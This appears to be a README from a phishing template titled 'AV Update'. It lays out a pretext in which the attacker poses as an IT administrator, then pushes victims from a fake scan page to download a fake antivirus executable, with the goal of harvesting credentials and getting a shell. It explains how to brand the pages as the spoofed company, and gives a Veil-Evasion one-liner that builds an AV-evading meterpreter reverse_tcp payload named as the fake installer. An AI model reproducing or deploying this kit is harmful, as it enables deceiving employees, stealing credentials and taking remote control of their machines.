 
# AV Update Template

**Objective:** Credential harvesting *and* shell

## Pretext:
Spoofing as an IT administrator, you're pushing out new antivirus software and need users to help run an automated scan to see if the new software was pushed to their computer and is up-to-date. After the scan page reaches around 70%, the page redirects and notifies the user that they need to download and run a file becuase their AV is out of date.

## Things you'll need to change:
* File: ./login: 
  ** name="logo" -> update to the company logo
  ** Store company logo in the images folder. name it logo.png

* File: ./scan: 
  ** name="logo" -> update to company logo

* File: /include/style-login-new.css
  ** footer#bottom -> update the background:# to the spoofed company color if wanted. 
  ** header -> update background-color:# to spoofed company color if wanted.
  ** PartnerPlus_Antivirus_v3.5.3.exe
	   ** Create your own executable file. MSFVenom gets popped by AV, so use Veil if possible. Instructions are below.

## Creating your own Executable using Veil Framework:
1. Setting up Veil-Evasion 
  1.a. git clone git@github.com:Veil-Framework/Veil-Evasion.git
  1.b. cd veil-Evasion
  1.c. ./setup/setup.sh -s
2. Creating a payload
  2.a. you can use the step-by-step instructions found in step 2.b. or modify and use the one-liner below
    2.a.i. # ./Veil-Evasion.py  -l  python -p python/b64_substitution  -o trytofindthis –msfpayload windows/meterpreter/reverse_tcp –msfoptions LHOST=<listening box> LPORT=443
  2.b. tutorial: https://sathisharthars.wordpress.com/2014/06/07/evading-antivirus-using-veil-framework-in-kali-linux/
3. **MAKE SURE YOU NAME IT** PartnerPlus_Antivirus_v3.5.3.exe or you'll have to edit the 'failed' page.
